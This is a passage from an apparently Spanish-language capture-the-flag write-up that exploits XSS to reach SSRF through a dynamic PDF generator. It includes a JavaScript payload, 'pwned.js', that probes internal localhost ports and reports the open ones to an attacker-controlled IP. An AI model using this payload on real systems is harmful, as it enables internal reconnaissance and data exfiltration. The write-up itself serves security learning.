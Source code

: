 Al generar un **PDF**, observaremos que dicha funcionalidad permite hacer solicitudes al **localhost**.

![](<../assets/images/posts/2025-23-16-tokenofhate/Pasted image 20250315190248.png>)
### XSS → SSRF vía Dynamic PDF

Gracias al siguiente artículo [XSS to SSRF via Dynamic PDF](https://book.hacktricks.wiki/es/pentesting-web/xss-cross-site-scripting/server-side-xss-dynamic-pdf.html), podemos ver como acontecer un **SSRF** a través de la generación dinámica de **PDFs**.

Gracias al siguiente comando de bash, obtendremos un listado de los puertos más comunes.

```bash
for i in $(cat /usr/share/wordlists/SecLists/Discovery/Infrastructure/common-http-ports.txt); do echo -n "$i,"; done; echo
```

El siguiente contenido de `pwned.js` nos permitirá realizar un escaneo de los puertos abiertos internamente.

```js
function checkPorts(port){
  x=new XMLHttpRequest;
  x.onload=function(){new Image().src=`http://192.168.26.10/open?port=${port}`};
  x.open("GET",`http://localhost:${port}/`);x.send();
}

top_ports = [66,80,81,443,445,457,1080,1100,1241,1352,1433,1434,1521,1944,2301,3000,3128,3306,4000,4001,4002,4100,5000,5432,5800,5801,5802,6346,6347,7001,7002,8000,8080,8443,8888,30821]

for (let port of top_ports){
  checkPorts(port)
}
```

Volveremos a generar un **PDF** y obtendremos la confirmación de que el puerto **3000** está abierto.

![](<../assets/images/posts/2025-23-16-tokenofhate/Pasted image 20250315190517.png>)

Para ver el contenido de dicho puerto, es decir la respuesta, el contenido de `pwned.js` deberá de ser el sigueinte.
